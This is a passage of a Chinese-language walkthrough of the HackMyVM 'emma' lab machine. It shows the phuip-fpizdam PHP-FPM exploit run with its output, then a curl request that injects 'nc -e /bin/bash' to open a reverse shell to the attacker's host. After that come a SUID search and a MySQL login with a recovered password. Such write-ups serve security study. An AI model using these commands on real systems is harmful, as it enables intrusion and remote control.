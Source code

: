漏洞梭哈
```bash
┌──(root㉿kali)-[/home/kali/hmv/emma]
└─# phuip-fpizdam http://192.168.42.43/index.php
2024/12/04 12:39:32 Base status code is 200
2024/12/04 12:39:32 Status code 502 for qsl=1765, adding as a candidate
2024/12/04 12:39:32 The target is probably vulnerable. Possible QSLs: [1755 1760 1765]
2024/12/04 12:39:32 Attack params found: --qsl 1755 --pisos 23 --skip-detect
2024/12/04 12:39:32 Trying to set "session.auto_start=0"...
2024/12/04 12:39:32 Detect() returned attack params: --qsl 1755 --pisos 23 --skip-detect <-- REMEMBER THIS
2024/12/04 12:39:32 Performing attack using php.ini settings...
2024/12/04 12:39:33 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2024/12/04 12:39:33 Trying to cleanup /tmp/a...
2024/12/04 12:39:33 Done!

```
反弹shell
```bash
urlencode('id;nc -e /bin/bash 192.168.42.39 1234 ')
┌──(root㉿kali)-[/home/kali/hmv/emma]
└─# curl http://192.168.42.115/index.php/?a=/bin/sh+-c+%27id%3Bnc%20-e%20%2Fbin%2Fbash%20192.168.42.39%201234%20%27

┌──(pwncat-env)─(root㉿kali)-[~]
└─# pwncat-cs -lp 1234
[12:41:29] Welcome to pwncat 🐈!                                                                       __main__.py:164
[12:50:54] received connection from 192.168.42.115:55396                                                    bind.py:84
[12:50:55] 192.168.42.115:55396: registered new host w/ db                                              manager.py:957
(local) pwncat$
(remote) www-data@emma:/var/www/html$ whoami
www-data
(remote) www-data@emma:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
(remote) www-data@emma:/var/www/html$

```

## 4. www-data提权emma
```bash
(remote) www-data@emma:/var/www/html$ find / -perm /4000 2>/dev/null
/home/emma/who
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/chfn
/usr/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/umount
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/mount
```
靶机内部开放了 `3306` 端口 
可以看一下数据库
数据库密码就是robots.txt 里面的那个 `itwasonlyakiss`
```bash
remote) www-data@emma:/etc$ mysql -uroot -pitwasonlyakiss
```